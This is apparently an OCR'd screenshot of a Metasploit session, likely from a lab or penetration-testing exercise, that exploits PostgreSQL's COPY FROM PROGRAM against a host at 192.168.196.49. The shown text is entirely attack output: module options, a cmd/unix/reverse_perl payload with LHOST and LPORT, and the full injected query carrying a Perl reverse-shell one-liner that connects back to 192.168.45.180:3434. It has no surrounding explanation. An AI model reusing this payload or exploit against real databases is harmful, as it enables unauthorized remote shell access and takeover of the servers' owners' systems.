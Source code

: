 ```
   TABLENAME      M3cxTqWw                         yes   A table name that does not exist (To avoid deletion)

   USERNAME       rubben                           yes   The username to authenticate as

  
  

Payload options (cmd/unix/reverse_perl):

  

   Name   Current Setting  Required  Description

   ----   ---------------  --------  -----------

   LHOST  192.168.45.180   yes   The listen address (an interface may be specified)

   LPORT  3434         yes   The listen port

  
  

Exploit target:

  

   Id  Name

   --  ----

   0   Automatic

  
  
  
  

msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

  

[-] Handler failed to bind to 192.168.45.180:3434:-  -

[*] Started reverse TCP handler on 0.0.0.0:3434

[*] 192.168.196.49:5432 - 192.168.196.49:5432 - PostgreSQL 13.7 (Debian 13.7-0+deb11u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 10.2.1-6) 10.2.1 20210110, 64-bit

[*] 192.168.196.49:5432 - Exploiting...

[+] 192.168.196.49:5432 - 192.168.196.49:5432 - M3cxTqWw dropped successfully

[+] 192.168.196.49:5432 - 192.168.196.49:5432 - M3cxTqWw created successfully

[!] 192.168.196.49:5432 - 192.168.196.49:5432 - Unable to execute query: COPY "M3cxTqWw" FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.45.180:3434");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';

```